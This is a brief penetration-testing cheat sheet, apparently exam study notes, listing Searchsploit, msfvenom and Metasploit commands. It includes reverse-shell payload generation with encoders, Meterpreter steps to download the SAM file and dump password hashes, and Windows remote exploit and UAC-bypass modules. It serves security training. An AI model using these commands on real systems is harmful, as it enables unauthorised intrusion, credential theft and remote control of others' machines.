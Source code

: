 # Searching

### Searchsploit

```bash
#update
searchsploit -u

searchsploit --nmap [file.xml]
```

msfvenom -p \[payload\] -f \[format\] LHOST=\[your ip\] LPORT=\[your listener port\]

* windows/shell\_reverse\_tcp \(unstaged\)
* windows/shell/reverse\_tcp \(staged\)

Use Metasploit multi handler for staged \(allowed on exam\)

-e x86\shikata\_ga\_nai -b allows you to set bad characters --list payloads

msfvenom -a x86 --platform windows -p windows/shell\_reverse\_tcp -f python &gt; shellcode.txt

### Common Commands

```bash
upload file c:\\windows
download c:\\windows\\repair\\sam /tmp
execute -f c:\\windows\temp\exploit.exe
execute -f cmd -c
ps
shell
getsystem
hashdump
portfwd add –l 3389 –p 3389 –r target
portfwd delete –l 3389 –p 3389 –r target
```

### Common Modules

Remote Exploits

```bash
#MS08_067 Windows 2k, XP, 2003 Remote Exploit
use exploit/windows/smb/ms08_067_netapi

#MS08_040 Windows NT, 2k, XP, 2003 Remote Exploit
use exploit/windows/dcerpc/ms06_040_netapi

#MS09_050 Windows Vista SP1/SP2 and Server 2008 (x86) Remote Exploit
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
```

Local Exploits

```bash
#Bypass UAC on Windows 7 + Set target + arch, x86/64
use exploit/windows/local/bypassuac
```

Aux Modules

```bash
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/http/jboss_vulnscan
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/mysql/mysql_version
use auxiliary/scanner/oracle/oracle_login
```

